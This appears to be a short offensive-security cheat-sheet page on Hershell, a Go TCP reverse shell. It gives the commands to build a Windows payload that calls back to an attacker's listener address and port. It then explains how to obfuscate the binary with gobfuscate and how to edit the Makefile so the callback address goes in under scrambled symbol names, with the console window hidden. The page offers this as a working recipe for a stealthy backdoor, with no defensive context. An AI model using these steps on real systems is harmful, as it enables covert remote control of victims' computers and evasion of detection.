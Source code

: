 # Hershell

[Hershell](https://github.com/lesnuages/hershell) is a simple TCP reverse shell written in Go.

## Installing Hershell

```text
go get github.com/lesnuages/hershell
cd $GOPATH/src/github.com/lesnuages/hershell/
make depends
make windows64 LHOST=192.168.0.12 LPORT=1234
```

## Obfuscating  Hershell

[gobfuscate](https://github.com/unixpickle/gobfuscate) obfuscate Go binaries and packages.

```text
go get github.com/unixpickle/gobfuscate
gobfuscate -outdir github.com/lesnuages/hershell ./out
```

!!! warning
    You will have to set the `GOOS` and `GOARCH` before running **gobfuscate** since it's using the default build profile otherwise it will takes only the Linux source files.

The Makefile also needs to be copied and edited:

```text
LINUX_LDFLAGS=--ldflags "-X main.kephknbjcmclaiojcnoa=${LHOST}:${LPORT} -X main.eghlidmkekfibfjihlkg=$$(openssl x509 -fingerprint -sha256 -noout -in ${SRV_PEM} | cut -d '=' -f2)"
WIN_LDFLAGS=--ldflags "-X main.kephknbjcmclaiojcnoa=${LHOST}:${LPORT} -X main.eghlidmkekfibfjihlkg=$$(openssl x509 -fingerprint -sha256 -noout -in ${SRV_PEM} | cut -d '=' -f2) -H=windowsgui"
```

